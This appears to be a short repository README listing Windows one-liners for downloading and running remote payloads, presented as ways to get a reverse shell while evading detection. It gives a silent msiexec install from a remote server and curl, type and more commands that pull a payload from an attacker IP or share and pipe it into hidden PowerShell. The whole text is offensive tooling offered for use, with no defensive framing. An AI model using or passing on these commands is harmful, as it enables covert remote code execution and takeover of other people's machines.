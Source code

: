# Windowsx86 shelcode

1). Windows installer is used to install software or a patch, but we can take advantage of this built in windows tool to download and execute remote payload in the background while avoiding detection.
	
	Command-Line:  msiexec /i http://server/package.msi /qn

2). Windows 10 version 1803 (and earlier, with insider build 17063) includes a native curl.exe (and tar.exe ) in C:\Windows\System32\, which you can access right from your regular CMD.
	
	Command-Line: curl http://<attacker-ip>/<payload-name>.txt | powershell -w h

3). Some new ways of getting a reverse shell using windows one-liner:
	
	Command-Line: type \\<attacker-ip>\<payload-name>.txt | powershell -w h
	Command-Line: more \\<attacker-ip>\<payload-name>.txt | powershell -w h

